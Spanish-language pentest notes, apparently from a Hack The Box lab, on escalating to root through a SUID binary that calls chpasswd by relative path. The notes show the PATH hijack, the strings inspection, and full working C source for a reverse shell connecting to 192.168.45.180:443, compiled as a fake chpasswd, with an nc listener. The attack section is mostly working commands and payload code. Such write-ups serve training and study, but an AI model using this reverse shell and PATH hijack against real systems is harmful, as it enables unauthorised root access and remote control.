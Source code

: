 
## DESCRIPTION

Basicamente es que nos encontremos un fichero con el SUID que lo pueda ejecutar un usuario con el que tengamos acceso. Miramos a ver si llama a algun ejecutable o script que vamos a sustuir o bien a cambiar el path que lo apunta.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: editando el PATH

Localizamos en el directorio de John un binario con el SUID, lo que significa que cualquiera que lo ejecute se ejecutará como root:

![[Pasted image 20230605194800.png]]

Miramos las cadenas de texto que tiene:

 strings RESET_PASSWD 
 ![[Pasted image 20230605194730.png]]
 
 Vemos que llama a chpasswd que es un binario que se encuentra en /usr/sbin:
 
 
 Y el PATH del usuario es el siguiente
 ![[Pasted image 20230605194727.png]]
 
 Vamos a cambiar el path a un directorio donde tengamos permisos y vamos a compilar un binario con el mismo nombre y que contenga una reverse shell. DE esta forma cuando ejecutemos RESET_PASSWD -> este ejecutara chpasswd que se encontrara en nuestro PATH es decir una recerse shell:
 
 export PATH=/usr/bin:/tmp
![[Pasted image 20230605194721.png]]


En tmp creamos un script en C con el siguiente código (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c)

primero comprobamos que tenga el compilador:
![[Pasted image 20230605194716.png]]
````


cat /tmp/shell.c 
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 443;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.45.180");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```` 


Modificamos los campos subrayados:


![[Pasted image 20230605194710.png]]


Compilamos: gcc /tmp/shell.c --output chpasswd

Nos ponemos a la escucha en el puerto 443:
 nc -lvnp 443 

Y ahora ejecutamos RESET_PASSWD con el usuario john:

![[Pasted image 20230605194705.png]]




## MACHINES

* Hack The Box: 


**!!NOTA IMPORTANTE!!** 